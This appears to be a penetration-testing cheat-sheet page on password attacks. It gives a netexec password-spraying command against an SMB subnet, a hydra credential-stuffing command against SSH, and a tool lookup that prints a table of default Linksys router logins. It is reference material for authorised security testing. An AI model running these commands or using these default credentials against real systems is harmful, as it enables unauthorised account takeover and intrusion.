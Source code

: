 ## Password Spraying 

```rb
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```

## Credential stuffing
[Credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing) is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt access on others. Since many users reuse their usernames and passwords

```rb
hydra -C user_pass.list ssh://10.100.38.23
```

`username:password`


## Default credentials

```rb
pip3 install defaultcreds-cheat-sheet
```

```rb
creds search linksys

+---------------+---------------+------------+
| Product       |    username   |  password  |
+---------------+---------------+------------+
| linksys       |    <blank>    |  <blank>   |
| linksys       |    <blank>    |   admin    |
| linksys       |    <blank>    | epicrouter |
| linksys       | Administrator |   admin    |
| linksys       |     admin     |  <blank>   |
| linksys       |     admin     |   admin    |
| linksys       |    comcast    |    1234    |
| linksys       |      root     |  orion99   |
| linksys       |      user     |  tivonpw   |
| linksys (ssh) |     admin     |   admin    |
| linksys (ssh) |     admin     |  password  |
| linksys (ssh) |    linksys    |  <blank>   |
| linksys (ssh) |      root     |   admin    |
+---------------+---------------+------------+
```
